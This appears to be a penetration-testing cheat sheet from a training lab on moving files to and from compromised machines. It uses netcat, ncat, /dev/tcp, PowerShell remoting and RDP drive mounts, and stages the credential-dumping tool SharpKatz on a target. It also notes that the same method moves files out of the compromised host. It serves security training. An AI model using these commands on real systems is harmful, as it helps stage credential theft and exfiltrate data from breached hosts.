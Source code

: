 ```yaml
---
layout: default
---
```


# Miscellaneous File Transfer Methods
## File Transfer with Netcat and Ncat
**NetCat - Target Machine - Listening on Port 8000**
```bash
$ nc -l -p 8000 > SharpKatz.exe
```

**Ncat - Target Machine - Listening on Port 8000**
```bash
$ # Example using Ncat
$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

**Netcat - Attack Host - Sending File to Compromised machine**
```bash
$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe

$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

**Ncat - Attack Host - Sending File to Compromised machine**
```bash
$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe

$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

**Attack Host - Sending File as Input to Netcat**
```bash
$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

**Compromised Machine Connect to Netcat to Receive the File**
```bash
$ nc 192.168.49.128 443 > SharpKatz.exe
```

**Attack Host - Sending File as Input to Ncat**
```bash
$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

**Target Machine Connect to Ncat to Receive the File**
```bash
$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

**NetCat - Sending File as Input to Netcat**
```bash
$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

**Ncat - Sending File as Input to Netcat**
```bash
$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

**Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File**
```bash
$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

`Note: The same operation can be used to transfer files from the compromised host to our Pwnbox.`

## PowerShell Session File Transfer
**From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01**
```bash
> Test-NetConnection -ComputerName DATABASE01 -Port 5985

ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

**Create a PowerShell Remoting Session to DATABASE01**
```bash
> $Session = New-PSSession -ComputerName DATABASE01
```

**Copy samplefile.txt from our Localhost to the DATABASE01 Session**
```bash
> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

**Copy DATABASE.txt from DATABASE01 Session to our Localhost**
```bash
> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

## RDP
**Mounting a Linux Folder Using rdesktop**
```bash
$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

**Mounting a Linux Folder Using xfreerdp**
```bash
$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

To access the directory, we can connect to \\tsclient\, allowing us to transfer files to and from the RDP session.


Alternatively, from Windows, the native mstsc.exe remote desktop client can be used.

After selecting the drive, we can interact with it in the remote session that follows.

`Note: This drive is not accessible to any other users logged on to the target computer, even if they manage to hijack the RDP session.
